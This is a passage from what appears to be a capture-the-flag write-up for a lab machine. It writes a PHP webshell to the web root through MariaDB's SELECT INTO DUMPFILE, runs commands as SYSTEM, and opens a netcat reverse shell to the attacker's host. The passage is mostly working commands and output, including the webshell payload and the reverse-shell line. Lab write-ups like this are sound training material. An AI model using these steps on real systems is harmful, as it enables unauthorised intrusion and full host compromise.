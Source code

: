     Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 885
    Server version: 10.4.13-MariaDB mariadb.org binary distribution

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [wallstant]>



### Webshell

I'll use that database access to write a webshell. Create a table:



    MariaDB [wallstant]> create table df(stuff text);
    Query OK, 0 rows affected (0.126 sec) 



Write webshell into table:



    MariaDB [wallstant]> insert into df values('<?php system($_REQUEST["cmd"]); ?>');
    Query OK, 1 row affected (0.105 sec)  



Output that table to a file:



    MariaDB [wallstant]> select * from df into dumpfile 'C:\\xampp\\htdocs\\social\\0xdf.php';
    Query OK, 1 row affected, 1 warning (0.121 sec)



It worked:



    oxdf@parrot$ curl -s "http://10.10.10.210:8080/0xdf.php?cmd=whoami"
    nt authority\system



### Shell

I could get that to a full shell by uploading `nc64.exe`, or using a
PowerShell reverse shell. I actually already had `nc64.exe` on Reel2
from some testing I was doing, so triggering it to get a reverse shell
is easy:



    oxdf@parrot$ curl -s "http://10.10.10.210:8080/0xdf.php" --data-urlencode "cmd=\programdata\nc64.exe -e powershell 10.10.14.10 443"



At a local `nc`:



    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.210] 45095
    Windows PowerShell 
    Copyright (C) 2016 Microsoft Corporation. All rights reserved.

    PS C:\xampp\htdocs\social> whoami
    nt authority\system







